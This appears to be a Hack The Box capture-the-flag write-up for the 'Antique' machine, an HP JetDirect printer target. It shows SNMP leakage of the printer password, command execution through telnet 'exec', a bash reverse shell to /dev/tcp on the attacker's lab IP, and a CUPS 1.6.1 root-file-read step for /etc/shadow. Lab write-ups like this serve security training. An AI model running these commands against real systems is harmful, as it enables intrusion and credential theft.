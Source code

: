 # Antique
## Information Gathering
10.10.11.107

#### Ports/Services
23/tcp   telnet?

## Enumeration
### Nmap scan
```bash
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
```

### 23/tcp
- Banner grabbing

```bash
telnet 10.10.11.107

HP JetDirect
```

- Attempting to grab cleartext password
```bash
snmpget -v1 -c public 10.10.11.107 iso.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
```

- Converting `50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135` to ASCII `P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5`
- You can use the first part to login to the printer `P@ssw0rd@123!!123`
- Login to printer using the previous password
- You are able to run system commands using `exec`
- Reverse shell `exec bash -c 'bash -i >& /dev/tcp/10.10.14.17/53 0>&1'`

## Exploitation
After logging in with the leaked credentials you can run system commands. Start your nc listener and throw a reverse shell.
```bash
exec bash -c 'bash -i >& /dev/tcp/10.10.14.17/53 0>&1'
```

## Privilege Escalation
- An internal port is listening on 631
```bash
netstat -antup 

Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1029/python3        
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp       44      0 10.10.11.107:23         10.10.14.17:54550       CLOSE_WAIT  1029/python3        
tcp        0      0 10.10.11.107:23         10.10.14.17:55386       ESTABLISHED 1029/python3        
tcp        0    286 10.10.11.107:33726      10.10.14.17:53          ESTABLISHED 1277/bash           
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
udp        0      0 10.10.11.107:53573      8.8.8.8:53              ESTABLISHED -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -
```
- This is most likely Internet Printing Protocol (IPP)
- Root is running this process
```bash
ps aux | grep "cups"
root        1028  0.0  0.0  20392  3428 ?        Ss   20:38   0:00 /usr/sbin/cupsd -C /etc/cups/cupsd.conf
```
- Interacting with this process gives an HTTP response which contains the version
```bash
nc 127.0.0.1 631
whoami

<TITLE>Bad Request - CUPS v1.6.1</TITLE>
```
- CUPS 1.6.1
	- [Root file read](https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/)
- You can use this exploit to read /etc/shadow and get the root flag.